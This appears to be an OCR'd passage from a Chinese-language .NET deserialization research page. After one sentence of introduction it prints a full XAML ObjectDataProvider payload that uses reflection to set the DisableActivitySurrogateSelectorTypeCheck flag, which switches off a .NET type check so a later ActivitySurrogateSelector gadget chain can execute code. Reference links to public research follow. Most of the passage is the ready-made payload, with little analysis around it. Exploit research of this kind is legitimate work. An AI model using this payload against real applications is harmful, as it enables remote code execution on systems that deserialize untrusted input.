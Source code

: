 结合`ObjectDataProvider`和`XamlReader`来执行`System.Configuration.ConfigurationManager.AppSettings.Set("microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck", "true");`的操作

payload 如下：

```bash
<ResourceDictionary
    xmlns="https://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="https://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:s="clr-namespace:System;assembly=mscorlib"
    xmlns:c="clr-namespace:System.Configuration;assembly=System.Configuration"
    xmlns:r="clr-namespace:System.Reflection;assembly=mscorlib">
    <ObjectDataProvider x:Key="type" ObjectType="{x:Type s:Type}" MethodName="GetType">
        <ObjectDataProvider.MethodParameters>
            <s:String>System.Workflow.ComponentModel.AppSettings, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="field" ObjectInstance="{StaticResource type}" MethodName="GetField">
        <ObjectDataProvider.MethodParameters>
            <s:String>disableActivitySurrogateSelectorTypeCheck</s:String>
            <r:BindingFlags>40</r:BindingFlags>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="set" ObjectInstance="{StaticResource field}" MethodName="SetValue">
        <ObjectDataProvider.MethodParameters>
            <s:Object/>
            <s:Boolean>true</s:Boolean>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="setMethod" ObjectInstance="{x:Static c:ConfigurationManager.AppSettings}" MethodName ="Set">
        <ObjectDataProvider.MethodParameters>
            <s:String>microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck</s:String>
            <s:String>true</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

### 参考文章

[https://paper.seebug.org/1418/#typeconfusedelegate](https://paper.seebug.org/1418/#typeconfusedelegate)

[https://github.com/Y4er/dotnet-deserialization/blob/main/SoapFormatter.md](https://github.com/Y4er/dotnet-deserialization/blob/main/SoapFormatter.md)

[https://googleprojectzero.blogspot.com/2017/04/exploiting-net-managed-dcom.html](https://googleprojectzero.blogspot.com/2017/04/exploiting-net-managed-dcom.html)

[https://www.netspi.com/blog/technical/adversary-simulation/re-animating-activitysurrogateselector/](https://www.netspi.com/blog/technical/adversary-simulation/re-animating-activitysurrogateselector/)
